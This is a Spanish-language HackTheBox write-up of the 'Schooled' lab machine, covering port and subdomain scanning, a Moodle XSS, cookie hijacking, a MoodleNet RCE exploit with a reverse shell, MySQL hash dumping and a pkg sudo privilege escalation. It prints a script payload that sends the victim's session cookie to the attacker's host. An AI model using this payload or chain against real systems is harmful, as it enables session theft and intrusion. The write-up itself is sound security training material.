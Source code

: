 ```yaml
---
title: "Schooled - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad media, para su intrusión me aproveché de un 'XSS' para robarle la cookie de sesión al administrador y hacer uso de un 'exploit' para ganar ejecución de código arbitrario, para la escalada de privilegios tenía la capacidad de ejecutar el binario `pkg` con privilegios de 'root', para ello me dirigí a gtfobins y encontré una carga util que permitía escalar privilegio."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/133932400-60dcfc4d-9b54-4d9d-9f6b-c139b2c4c53c.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - XSS
  - Cookie Hijacking
  - pkg
  - mysql
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/133932400-60dcfc4d-9b54-4d9d-9f6b-c139b2c4c53c.jpg">
</p>

Empece con un escaneo de `Nmap` para detectar puertos abiertos en la maquina.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sS --min-rate=5000 -vvv -n -Pn --open 10.10.10.234 -oN targeted
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:18 EDT
Initiating SYN Stealth Scan at 06:18
Scanning 10.10.10.234 [1000 ports]
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
Completed SYN Stealth Scan at 06:18, 0.52s elapsed (1000 total ports)
Nmap scan report for 10.10.10.234
Host is up, received user-set (0.047s latency).
Scanned at 2021-09-18 06:18:46 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh 	syn-ack ttl 63
80/tcp open  http	syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
       	Raw packets sent: 1798 (79.112KB) | Rcvd: 202 (8.088KB)
```

Hice otro escaneo para detectar la version de cada puerto abierto.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sC -sV -p22,80 10.10.10.234 -oN webScan                    	 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:20 EDT
Nmap scan report for 10.10.10.234
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http	Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds
```

Tenia dos puertos abiertos, el primero era de servicio `ssh` y el otro era un servidor web, poco podia hacer en el primero por lo que recurri a ver que habia en el servidor web.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Al parecer era una pagina de colegio, segui investigandola un poco mas y encontre lo siguiente en el "footer" de la web.

![https://imgur.com/Vnl3TCA.png](https://imgur.com/Vnl3TCA.png)

Esto me llamo la atencion, pense que se podria estar aplicando `virtual hosting`, es decir alojar distintos dominios en una sola `IP`, para ello lo introduje en el `/etc/hosts`.

![https://imgur.com/9V1ffkh.png](https://imgur.com/9V1ffkh.png)

Volvi a acceder a la web pero no habia nada interesante.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Hice uso de `whatweb` para ver si corria algun `CMS`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# whatweb http://schooled.htb/
http://schooled.htb/ [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

Al parecer era la misma, para ello hice `fuzzing` de subdominios y encontre uno que me llamo la atencion.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# wfuzz -c --hc=404 -u http://schooled.htb/ -H "Host: FUZZ.schooled.htb" -w /usr/share/amass/wordlists/subdomains.lst -t 20 --hw=1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                     	*
********************************************************

Target: http://schooled.htb/
Total requests: 8215

=====================================================================
ID       	Response   Lines	Word   	Chars   	Payload                                                                                 	 
=====================================================================

000002430:   400    	10 L 	45 W   	347 Ch  	"ferrari.fortwayne.com."                                                                	 
000004127:   200    	1 L  	5 W    	84 Ch   	"moodle"
```

`Moodle` era un subdominio que al parecer estaba aplicando, lo introduje en el `/etc/hosts`.

![https://imgur.com/OShD4Q5.png](https://imgur.com/OShD4Q5.png)

Y la pagina me reporta algo diferente, era un `moodle`.

![https://imgur.com/tCieGJx.png](https://imgur.com/tCieGJx.png)

Tenia un boton que ponia `Log In`, dandole click me redirigio a una pagina de inicio de sesion.

![https://imgur.com/dvEEVpA.png](https://imgur.com/dvEEVpA.png)

No tenia credenciales por lo que poco podia hacer, pero me podia registrar.

![https://imgur.com/W3FR84S.png](https://imgur.com/W3FR84S.png)

Una vez registrado, accedí.

![https://imgur.com/OnSim3m.png](https://imgur.com/OnSim3m.png)

Viendo todas las asignaturas que habian, `matematicas` era la unica que tenia un usuario llamado `Manuel Philips`.

![https://imgur.com/3VUKpya.png](https://imgur.com/3VUKpya.png)

Encontré un comentario de este usuario.

![Sin título (4) (1)](https://user-images.githubusercontent.com/69093629/133931890-edc2a9ae-3ac4-4e6e-a0a9-0caf666843f0.png)

Lo que mas me llamo la atencion es que pone que verificara a todos los usuarios, mirando un poco mas la pagina encontre este `buffer` que al parecer me permitia hablar con `Manuel Philips`, Intente ver si era vulnearable a `XSS`.

![Sin título (1) (2) (1)](https://user-images.githubusercontent.com/69093629/133931959-b6273540-4006-4950-8f7f-042e62dc398f.png)

Y me reporto la alerta por pantalla.

![https://imgur.com/OpYC8nU.png](https://imgur.com/OpYC8nU.png)

Ahora que sabia que era vulnerable a `XSS` me acorde del mensaje que decia que se verificarian todos los usuarios, pense en efectuar un `Cookie Hijacking`, es decir robar la `cookie` de sesion del usuario privilgiado, para ello use la siguiente sintaxis en `js`.

```js
<script>document.location="http://10.10.16.3/value_cookie="+document.cookie</script>
```

Realmente se puede hacer de muchas maneras.

![https://imgur.com/upgz0Co.png](https://imgur.com/upgz0Co.png)

Abri un servidor por `python` y recibi mi `cookie` de sesion por `GET` mas otras que no eran mias. 

![https://imgur.com/gYNFMRR.png](https://imgur.com/gYNFMRR.png)

Me autentique con la `cookie` que recibi y al parecer era del usuario `Manuel Philips`, volviendo al mensaje de antes, vi que ponia algo de `MoodleNet`, me dio por investigar y encontré un exploit de `Lanz` que te garantiza `RCE`.

![Captura de pantalla (2)](https://user-images.githubusercontent.com/69093629/133928030-748d5a80-0d9f-4ed9-be5d-0d78952340d3.png)

Lo ejecute brindandole la `cookie` de sesion del usuario `Manuel Philips` y ejecutando una `reverse shell` por `mkfifo` y gane acceso a la maquina.

![https://imgur.com/JpUx8Ox.png](https://imgur.com/JpUx8Ox.png)

Investigando la maquina encontré un archivo llamado `config.php` que tenia credenciales de `MySQL`.

![https://imgur.com/r590xtu.png](https://imgur.com/r590xtu.png)

Antes de usar `MySQL` hice uso de la utilidad `MySQLshow` para enumerar un poco las bases de datos que habian y sus tablas.

![Qm7IKtT](https://user-images.githubusercontent.com/69093629/133929540-2504f516-0097-41ca-9ca8-e896e68c1dd1.png)

Tras una enumeracion de la base de datos `moodle` encontré una tabla en especial llamada `mdl_user`, enumerandola encontré distintas columnas, pero me llamaron la atencion en especial "username", "password" y "email", tras enumerarlas me reporto distintos `hashes` de usuarios.

![https://imgur.com/CBBvwrR.png](https://imgur.com/CBBvwrR.png)

Decidi crackear los `hashes` con `john` en local y consegui crackear la credencial `!QAZ2wsx` que era del usuario `jamie`, como la maquina tenia `SSH` abierto probe a autenticarme con estas credenciales y accedi, ya pude visualizar la "flag" del usuario.

![NPUMyaN](https://user-images.githubusercontent.com/69093629/133930143-76bae971-7103-44df-b564-bc03fb6052b4.jpg)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Haciendo `sudo -l` vi que podia ejecutar `pkg` como cualquier usuario.

![https://imgur.com/5rV3sG0.png](https://imgur.com/5rV3sG0.png)

Me dirigi a [gtfobins](https://gtfobins.github.io) y encontré una carga util que me permitia escalar privilegios.

![https://imgur.com/EjF0tv9.png](https://imgur.com/EjF0tv9.png)

En la maquina victima no tenia `fpm` instalado, para ello lo hice en mi maquina, hice que le otorgase privilegios `SUID` a la `bash`, lo transferi a la maquina victima y lo ejecute, ya pude visualizar la "flag" de `root`.

![t7fDsbP](https://user-images.githubusercontent.com/69093629/133930359-c73352b9-00dd-4bf5-88dc-d9078cf3439a.jpg)




































